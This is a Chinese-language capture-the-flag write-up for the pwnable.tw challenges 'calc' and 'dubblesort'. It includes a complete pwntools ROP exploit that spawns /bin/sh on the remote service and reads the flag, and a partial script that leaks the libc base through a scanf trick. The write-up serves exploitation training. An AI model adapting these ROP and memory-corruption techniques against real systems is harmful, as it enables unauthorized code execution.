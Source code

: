 例如`+100+1`
思路就是做ROP...记得ROPgadget有个打stack link 的程序很好用的命令忘记了...然后写exp写了3个小时...
遇到如下问题
* `sys_execv('sh')`没用一定要是`/bin/sh`而且没有...
* 不能输入字符`0`

采用的方法是read进一个`/bin/sh`用int0x80拿shell
## exp
```python
from pwn import *
def cal(c):
	p.sendline(c)
eax=0x0805c34b
ppp=0x080701d0
int0x80=0x08049a21
read=0x806E6D0
bss=0x080ebf40+0x100
#p=process("./calc")
p=remote("chall.pwnable.tw",10100)
#gdb.attach(p,'b *0x80494a6')
aim=(0xffffd06c-0xffffcaf8)/4+19

cal("+{}+1*{}-1*{}".format(str(aim),str(read+ppp),str(ppp)))
cal("+{}-1*{}-1*{}-1*{}-1*{}+1*{}-1*{}".format(str(aim+2),str(bss),str(bss+100),str(100+ppp),str(ppp),str(1),str(1)))
cal("+{}+1*{}-1*{}+1*{}+1*{}-1*{}".format(str(aim+2+5),str(bss),str(bss-eax),str(eax-0xb),str(0xb+int0x80),str(int0x80)))

p.sendline("nier")
p.send("/bin/sh\x00\n")
sleep(3)
p.sendline("cat /home/calc/flag")
p.interactive()
```



# dubblesort
本题有越界写但是因开着canary所以无法直接改掉ret_address
需要一个关于__isoc99_scanf的技巧

__isoc99_scanf skill...
    输入+-时不改变栈上值也可以被%u吸收

## 漏洞点
* 开始的时候有overflow可以泄露libc地址
* size无限制可以做到任意地址写

## 利用
* 泄露libc
* 利用—+构造rop
## EXP
```python
from pwn import *
context.log_level="debug"
#p=process("./dubblesort",env={'LD_PRELOAD':"./libc_32.so.6"})
p=remote("chall.pwnable.tw",10101)
p.sendlineafter("What your name :","A"*24)
p.read(31)
data=p.read(3)
base=(u32("\x00"+data))-(0xf7fb3000-0xf7e03000)
```